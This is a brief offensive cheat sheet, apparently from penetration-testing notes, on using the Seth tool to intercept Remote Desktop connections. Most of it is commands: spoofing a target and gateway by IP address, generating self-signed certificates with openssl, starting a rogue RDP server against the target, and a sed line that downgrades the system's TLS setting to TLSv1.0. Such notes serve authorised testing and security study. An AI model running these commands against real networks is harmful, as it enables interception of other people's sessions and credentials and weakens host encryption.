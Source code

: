 ### Source
https://github.com/SySS-Research/Seth  

### RDP spoofing
```
./seth.sh eth0 <attackerIp> <targetIp> <gatewayIp>
```

### Create local RDP server with self generated certificates
```
openssl genrsa -des3 -out certificate.key 4096
openssl req -new -key certificate.key -out certificate.csr
openssl x509 -req -days 365 -in certificate.csr -signkey certificate.key -out certificate.crt
```

### Start RDP server
```
python3 seth.py -c certificate.crt -k certificate.key <targetIp>
```

### If SSL error occurs - you might need to downgrade the protocol version
```
sed -i 's/TLSv1.2/TLSv1.0/' -i /etc/ssl/openssl.cnf
```

